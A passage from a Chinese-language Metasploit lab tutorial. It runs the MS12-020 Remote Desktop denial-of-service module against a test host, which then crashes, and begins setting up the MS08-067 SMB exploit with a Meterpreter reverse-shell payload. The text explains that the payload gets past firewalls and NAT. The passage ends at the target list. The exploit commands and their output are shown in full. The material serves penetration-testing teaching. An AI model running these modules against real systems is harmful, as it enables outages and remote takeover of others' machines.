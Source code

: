 4、最后输入命令“run”，执行我们的auxiliary攻击模块： 

```
msf auxiliary(ms12_020_maxchannelids) > run
 
[*] 192.168.116.129:3389 - Sending MS12-020 Microsoft Remote Desktop Use-After-Free DoS
[*] 192.168.116.129:3389 - 210 bytes sent
[*] 192.168.116.129:3389 - Checking RDP status...
[+] 192.168.116.129:3389 seems down
[*] Auxiliary module execution completed
```

5、靶机系统受到攻击后蓝屏 

[![img](http://wiki.wooyun.org/_media/tools:p5.png?w=300&tok=9da908)](http://wiki.wooyun.org/_detail/tools:p5.png?id=tools%3Ametasploit) 

#### 2.2 MS08-067漏洞利用演示实验

2.2.1 微软关于MS18-067漏洞的安全公告: 

http://technet.microsoft.com/zh-cn/security/bulletin/ms08-067 

2.2.2 实验步骤 

1、进入msf终端后，使用search功能搜索ms08-067，发现有一个可用模块： 

```
msf > search ms08-067
 
Matching Modules
================
 
   Name                                 Disclosure Date  Rank   Description
   ----                                 ---------------  ----   -----------
   exploit/windows/smb/ms08_067_netapi  2008-10-28       great  MS08-067 Microsoft Server Service Relative Path Stack Corruption
```

2、使用use命令选定要利用的模块： 

```
msf > use exploit/windows/smb/ms08_067_netapi
msf exploit(ms08_067_netapi) >
```

3、接下来，light教授设置攻击载荷为基于Windows系统的Meterpreter reverse_tcp  ，这个载荷在攻击之后，会从目标主机发起一个反弹连接，连接到LHOST中指定的IP地址（也就是我们俗称的反弹马）。这种反弹连接可以让你绕过防火墙的入站流量保护，或者穿透NAT网关。 

```
msf exploit(ms08_067_netapi) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
```

4、使用“show targets”命令让我们识别和匹配目标操作系统的类型。（大多数MSF渗透攻击模块会自动对目标系统类型进行识别，而不需要手工指定此参数，但是针对MS08-067漏洞的攻击中，通常无法正确的自动识别出系统类型。） 

```
msf exploit(ms08_067_netapi) > show targets 
 
Exploit targets:
 
   Id  Name
   --  ----
   0   Automatic Targeting
   1   Windows 2000 Universal
   2   Windows XP SP0/SP1 Universal
   3   Windows XP SP2 English (AlwaysOn NX)
   4   Windows XP SP2 English (NX)
   5   Windows XP SP3 English (AlwaysOn NX)
   6   Windows XP SP3 English (NX)
   7   Windows 2003 SP0 Universal
```